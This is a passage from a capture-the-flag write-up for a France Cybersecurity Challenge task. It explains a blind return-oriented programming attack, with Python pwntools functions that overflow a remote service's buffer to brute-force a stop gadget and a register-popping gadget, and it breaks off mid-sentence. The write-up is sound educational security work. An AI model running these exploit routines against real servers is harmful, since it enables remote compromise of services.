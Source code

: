 This got us `"\xcc\x06@\x00\x00\x00\x00\x00"` or `0x4006cc` which will be useful for our next step getting a stop gadget.


```python
def  get_stop_gadget(leak):
	for i in  range(340):
		p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
		p.send(b'a' * 40 + p64(leak + i) )
		resp = p.recvall(timeout=0.5).split(b"a" * 5)[-1]
  
		if  b"What is "  in resp:
			print(resp)
			return leak + i
		p.close()
  
	else:
		raise  ValueError('Failed')
```

Our stop_gadget  `0x4006b8` is used to get our brop_gadget, a gadget that looks like this
```
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
```
and is located in the __libc_csu_init.
I wrote this little function to get it:

```python
def  get_brop_gadget(leak, stop_gadget):
	for i in  range(100, 120):
		p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
		p.recvuntil(b">>> ")
		send = b'a' * 40 + p64(leak + i) + p64(0) * 6 + p64(stop_gadget)
		p.send(send)
  
		resp = p.recvall(timeout=0.5)
  
		if  b"aaaa"  in resp:
			return leak + i
  
		p.close()
  
	else:
		raise  ValueError('Failed')
```

from there we can also jump to:

